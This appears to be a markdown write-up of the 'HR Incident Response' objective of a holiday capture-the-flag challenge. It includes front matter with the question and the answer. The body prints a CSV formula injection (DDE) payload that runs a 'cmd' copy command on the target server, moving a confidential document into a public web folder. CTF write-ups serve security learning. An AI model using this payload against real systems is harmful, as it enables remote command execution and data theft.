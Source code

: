 ```yaml
---
layout: objective
title: "HR Incident Response"
#date: 2018-12-03
number: "7"
#image: "obj.2/obj.2.challenge.md"

images: []
question: "Santa uses an Elf Resources website to look for talented information security professionals. Gain access to the website and fetch the document C:\\candidate_evaluation.docx. Which terrorist organization is secretly supported by the job applicant whose name begins with K. For hints on achieving this objective, please visit Sparkle Redberry and help her with the Dev Ops Fail Cranberry Pi terminal challenge."
images: ["1.png","2.png","answer.png","question.png"]
narrative: "5"
elf-name: "Sparkle Redberry"
elf-terminal: "Dev Ops Fail"
elf-directory: "sparkle"
tags: [sample post, readability, test]
comments: false
image-dir: /assets/img/objectives/7
links: ["https://careers.kringlecastle.com/"]
answer: "Fancy Beaver "
---
```



The link takes us to the career website.
<figure>
	<img src="{{site.baseurl}}/assets/img/objectives/7/1.png">
	<figcaption>Career Site</figcaption>
</figure>

Entering a dummy CSV, I find this error message

<figure>
	<img src="{{site.baseurl}}/assets/img/objectives/7/2.png">
	<figcaption>Error Message</figcaption>
</figure>

I crafted a command that would copy the file to the publically accessible area:

```
=cmd|'/c copy c:/\candidate_evaluation.docx c:\careerportal\resources\public\stolen.docx'!A1
```

<figure>
	<img src="{{site.baseurl}}/assets/img/objectives/7/3.png">
	<figcaption>Error Message</figcaption>
</figure>

It shows the Job Applicant who starts with "k"
<figure>
	<img src="{{site.baseurl}}/assets/img/objectives/7/4.png">
</figure>
<figure>
	<img src="{{site.baseurl}}/assets/img/objectives/7/5.png">
	<figcaption>The Applicant</figcaption>
</figure>
